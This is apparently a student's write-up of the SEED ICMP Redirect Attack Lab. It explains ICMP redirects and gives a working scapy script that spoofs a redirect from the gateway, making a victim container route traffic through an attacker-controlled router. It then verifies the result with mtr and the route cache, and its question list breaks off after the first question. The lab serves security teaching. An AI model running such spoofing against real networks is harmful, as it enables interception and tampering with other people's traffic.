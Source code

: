 ICMP Redirect Attack Lab
-------------------------

This lab is about creating ICMP redirect. Which is an error message sent by a router to the sender of an IP packet. Redirects are used when a router believes a packet is being routed incorrectly, and it would like to inform the sender that it should use a different router for the subsequent packets sent to that same destination. ICMP redirect can be used by attackers to change a victim's routing.

The objective of this task is to launch an ICMP redirect attack on the victim, such that when the victim sends packets to 192.168.60.5, it will use the malicious router container (10.9.0.111) as its router. Since the malicious router is controlled by the attacker, the attacker can intercept the packets, make changes, and then send the modified packets out. 


## Environment Setup using container
-------------------------------------

As with the other labs we will be using the SEED docker containers in the zip file provided for the lab. Make sure to shut down any other containers that might be running on your lab machine or just start the configuration from a fresh VM. The details for Environment setup can be found on [SEED labs](https://seedsecuritylabs.org/Labs_20.04/Networking/ICMP_Redirect/)

Once the environment is set up, verify that it represents the one SEED wants you to use in the lab.

![netconfig](img/networkconfig.png)

## Task 1: Launching ICMP Redirect Attack

In the Ubuntu OS there is a countermeasure against ICMP redirect attacks. The Containers have been configured to ignore this countermeasure such that the victim will accept redirect messages.

We will attack the Victim container from the Attacker container. Checking the routing on our victim container

![victimroute](img/victimroute)

We see that the Victim container uses the container router to get to the 192.168.60.0/24 network.

Now we will develop a scapy script to Launch an ICMP redirect, icmpredirect.py
```python
#!/usr/bin/python3
from scapy.all import *

## THE SOURCE IS THE DEFAULT GATEWAY, THE DESTINATION OUR VICTIM MACHINE
ip = IP(src = '10.9.0.11', dst ='10.9.0.5')
# type 5 is redirect, code 1 is for host
icmp = ICMP(type=5, code=1)
## OUR REDIRECT MESSAGE CONTAINS A NEW GATEWAY FOR THE VICTIM MACHINE TO USE
icmp.gw = '10.9.0.111'
# The enclosed IP packet should be the one that
# triggers the redirect message.
## THIS IS THE SPOOFED ICMP THAT TRIGGERED OUR DEFAULT GATEWAY TO SEND THE
## REDIRECT MESSAGE.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP())
``` 
 
In order to simulate a man in the middle attack on the same subnet we need to spoof an ICMP redirect message that will identify our malicious router as the gateway for the victim machine to use when sending traffic to a machine on a different subnet.

#####**NOTE**
There is a peculiar issue in the containers mentioned in the [lab documents](https://seedsecuritylabs.org/Labs_20.04/Files/ICMP_Redirect/ICMP_Redirect.pdf) that require the victim container to be pinging the destination while you run the attack. Not sure why this is the author points out that this is only an issue while running this attack on containers.

#### **Verification**
So while running a ping to a machine on the subnet that 10.9.0.11 is a gateway for we run the attack on the attacker container and are able to get the ICMP redirect to store our malicious router in its routing cache for traffic destined for 192.168.60.5 machine. running 'mtr -n 192.168.60.5' will show a traceroute program documenting the re-routed traffic

![mtroutput](img/mtroutput.png)


We can also show the routing cache with the command 'ip route show cache'

![iprouteshow](img/iprouteshow.png)

#### **Questions**

1. Can we use ICMP redirect attacks to redirect to a remote machine?


